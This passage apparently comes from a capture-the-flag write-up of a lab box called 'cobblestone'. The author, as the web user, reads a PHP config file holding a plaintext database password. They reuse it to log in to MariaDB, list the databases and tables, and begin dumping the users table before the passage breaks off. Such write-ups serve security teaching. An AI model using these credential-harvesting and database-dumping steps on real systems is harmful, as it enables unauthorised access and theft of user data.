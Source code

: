 We can confirm that there is port `25151` is running and this one is quite interesting.

After a while recon, we found out another `connection.php` file.

```bash
www-data@cobblestone:/var/www/html/db$ cat connection.php 
<?php

$dbserver = "localhost";
$username = "dbuser";
$password = "aichooDeeYanaekungei9rogi0eMuo2o";
$dbname = "cobblestone";

$conn = new mysqli($dbserver, $username, $password, $dbname);

// Check connection
if ($conn->connect_errno > 0) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

Let's check out if we can got some credentials.

```bash
www-data@cobblestone:/var/www/html/db$ mysql -h 127.0.0.1 -u dbuser -p'aichooDeeYanaekungei9rogi0eMuo2o'                  
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2105
Server version: 10.11.11-MariaDB-0+deb12u1-log Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cobblestone        |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use cobblestone;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [cobblestone]> show tables;
+-----------------------+
| Tables_in_cobblestone |
+-----------------------+
| skins                 |
| suggestions           |
| users                 |
+-----------------------+
3 rows in set (0.001 sec)

MariaDB [cobblestone]> select * from users;
+----+----------+-----------+----------+------------------------+-------+------------------------------------------------------------------+-------------+
```